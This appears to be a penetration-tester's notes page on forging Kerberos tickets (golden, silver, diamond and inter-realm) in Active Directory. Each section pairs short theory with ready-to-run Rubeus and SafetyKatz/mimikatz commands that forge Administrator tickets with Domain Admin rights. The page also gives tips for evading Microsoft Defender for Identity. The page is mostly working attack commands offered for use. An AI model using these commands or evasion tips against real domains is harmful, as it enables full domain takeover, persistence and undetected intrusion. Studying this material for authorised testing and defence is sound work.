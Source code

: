 # Ticket Forging

{% hint style="info" %}
Always assume that MDI is active on Domain Controller

Always use AES to improve opsec

Make sure that the ticket you are forging is compliant to the KRBTGT policy
{% endhint %}

## Golden Ticket

### Theory

With the ash of the krbtgt account a ticket can be manually crafted (forged) with arbitrary parameter\
(i.e. Domain Admin)

### Abuse

With rubeus you can specify the option `/ldap` to do the majority of the opsec things

{% code overflow="wrap" %}
```powershell
./Rubeus.exe golden /aes256:<$AES256> /sid:<$SID> /ldap /User:Administrator /printcmd
```
{% endcode %}

## Silver Ticket

### Theory

Used to forge a ticket for a service account or a machine account. This ticket is not so useful as persistece because the machine passwords are rotated every 30 days

### Abuse

A silver ticket can be forged with tool like safetykatz

{% code overflow="wrap" %}
```powershell
./SafetyKatz.exe '"kerberos::golden /User:Administrator /domain:<$Domain Name> /sid:<$SID> /target:<$Machine name> /service:cifs /aes:<$AES256> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
{% endcode %}

## Diamond Ticket

### Theory

An even more opsec friendly version of the golden ticket. Usually with a golden ticket you craft a TGT without requesting it previously, so when you use it will flag the defensive mechanism.

To forge it you have to decrypt a valid ticket, modify and incypt it again with the krbtgt hash

### Abuse

Using rubeus

{% code overflow="wrap" %}
```powershell
./Rubeus.exe diamond /krbkey:<$AES> /user:<$Controlled user> /Password:<$Password> /enctype:aes /ticketuser:administrator /domain:<$Domain> /dc:<$DC> /ticketuserid:500 /groups:512 /createonly:C:\Windows\System32\cmd.exe /show /ptt
```
{% endcode %}

You can also use `/tgtdel` instead of the credentials if you have access to a domain user



and now you can [pass-the-hash.md](../active-directory/lateral-movement/pass-the/pass-the-hash.md "mention") to execute commands

## Inter-Realm Ticket

{% code overflow="wrap" %}
```powershell
kerberos::golden /user:Administrator /domain:<CURRENT DOMAIN> /sid:<CURRENT DOMAIN SID> /sids:<SID TO EXTRACT> /rc4:<TRUST KEY> /service:krbtgt /target:<TARGET DOMAIN> /ticket:./trust_tkt.kirbi" 
```
{% endcode %}

<figure><img src="../../.gitbook/assets/Pasted image 20231113155053.png" alt=""><figcaption></figcaption></figure>
